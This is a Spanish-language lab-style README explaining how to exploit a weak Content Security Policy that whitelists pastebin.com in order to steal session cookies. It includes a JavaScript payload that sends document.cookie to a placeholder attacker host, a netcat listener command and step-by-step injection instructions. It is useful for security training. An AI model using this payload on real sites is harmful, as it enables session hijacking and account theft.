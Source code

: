 # Explotación de Content Security Policy (CSP) para Robo de Cookies (Nivel Bajo)

Este README describe una prueba de concepto para explotar una configuración de Content Security Policy (CSP) débil para robar cookies de sesión. **Esta técnica debe utilizarse únicamente en entornos de prueba autorizados.**

## Descripción

Este exploit de bajo nivel se aprovecha de una CSP que permite la inclusión de scripts desde el dominio `pastebin.com`. Al inyectar una URL a un payload malicioso alojado en Pastebin, es posible ejecutar código JavaScript arbitrario en el contexto de la página web vulnerable y robar las cookies del usuario.

## Herramientas Necesarias

* Navegador web (se recomienda Firefox)
* Acceso a [Pastebin](https://pastebin.com/)
* Un servidor web para recibir las cookies robadas (o `netcat` para pruebas)

## Pasos de la Explotación

1.  **Descubrir la CSP:** Analizar las cabeceras HTTP de la página web objetivo para identificar la directiva `Content-Security-Policy` y las fuentes permitidas en `script-src`. Se asume que `https://pastebin.com` está permitido.

2.  **Preparar el Payload de Robo de Cookies:** Crear un script JavaScript que acceda a `document.cookie` y lo envíe a un servidor controlado por el atacante. Ejemplo:

    ```javascript
    fetch('http://TU_IP:9999/?cookies=' + document.cookie);
    console.log('Cookies sent!');
    ```

    Reemplazar `TU_IP` con la dirección IP del servidor receptor.

3.  **Iniciar el Servidor de Recepción de Cookies:**
    * **Usando `netcat`:** Abrir una terminal y ejecutar:
        ```bash
        nc -lvp 9999
        ```
    * **Usando un servidor web:** Asegurarse de que el servidor esté en funcionamiento y configurado para recibir peticiones GET con el parámetro `cookies`.

4.  **Subir el Payload a Pastebin:**
    * Ir a [https://pastebin.com/](https://pastebin.com/).
    * Pegar el código JavaScript en el campo "New Paste".
    * Seleccionar "JavaScript" en "Syntax Highlighting".
    * Elegir la visibilidad deseada (por ejemplo, "Unlisted").
    * Hacer clic en "Create New Paste".

5.  **Obtener la URL "Raw" de Pastebin:** Acceder a la página del paste creado y obtener la URL de la versión "Raw".

6.  **Explotar la CSP e Inyectar el Payload:**
    * Volver a la página web vulnerable.
    * Abrir la consola de desarrollador del navegador (Ctrl+Shift+K en Firefox).
    * Pegar la URL "Raw" de Pastebin en el campo o mecanismo que permita la inclusión de scripts externos (como un formulario de inclusión).
    * Ejecutar la acción para incluir el script.

7.  **Verificar la Ejecución y Recepción de Cookies:**
    * **Consola del navegador:** Verificar si aparece el mensaje `Cookies sent!`.
    * **Servidor de recepción:**
        * **`netcat`:** Debería mostrar una conexión entrante con una línea similar a:
            ```
            GET /?cookies=PHPSESSID=valor_de_la_sesion; otra_cookie=otro_valor; ... HTTP/1.1
            Host: TU_IP:9999
            ...
            ```
        * **Servidor web:** Revisar los logs del servidor para la petición GET con el parámetro `cookies`.

## Resultado

La recepción exitosa de las cookies, incluyendo la `PHPSESSID`, demuestra la vulnerabilidad de la CSP y el potencial para el secuestro de sesión.

**Advertencia:** El uso de estas técnicas sin autorización es ilegal y éticamente inaceptable. Este documento se proporciona únicamente con fines educativos y de prueba en entornos controlados.